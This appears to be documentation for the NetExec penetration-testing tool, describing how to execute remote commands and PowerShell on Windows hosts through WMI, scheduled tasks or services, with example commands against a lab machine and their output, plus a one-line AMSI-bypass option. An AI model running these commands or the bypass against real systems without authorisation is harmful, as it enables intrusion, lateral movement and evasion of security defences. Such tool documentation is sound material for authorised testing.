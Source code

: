 # Execute remote command

## Command Execution

Executing commands on a windows system requires Administrator credentials, nxc automatically tells you if the credential set you're using has admin access to a host by appending '(Pwn3d!)' to the output when authentication is successful.

## Execution Methods

nxc has three different command execution methods:

* `wmiexec` executes commands via WMI
* `atexec` executes commands by scheduling a task with windows task scheduler
* `smbexec` executes commands by creating and running a service

By default nxc will fail over to a different execution method if one fails. It attempts to execute commands in the following order:

1. `wmiexec`
2. `atexec`
3. `smbexec`

If you want to force nxc to use only one execution method you can specify which one using the `--exec-method` flag.

## Executing commands

In the following example, we try to execute `whoami` on the target using the `-x` flag:

```
#~ NetExec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         lab\administrator
06-05-2016 14:34:39 [*] KTHXBYE!
```

You can also directly execute PowerShell commands using the `-X` flag:

```
#~ NetExec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         Name                           Value
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         ----                           -----
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         CLRVersion                     2.0.50727.5420
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         BuildVersion                   6.1.7601.17514
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSVersion                      2.0
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         WSManStackVersion              2.0
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSCompatibleVersions           {1.0, 2.0}
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         SerializationVersion           1.1.0.1
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSRemotingProtocolVersion      2.1
06-05-2016 14:36:10 [*] KTHXBYE!
```

### Bypass AMSI

```
#~ NetExec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'  --amsi-bypass /path/payload
```
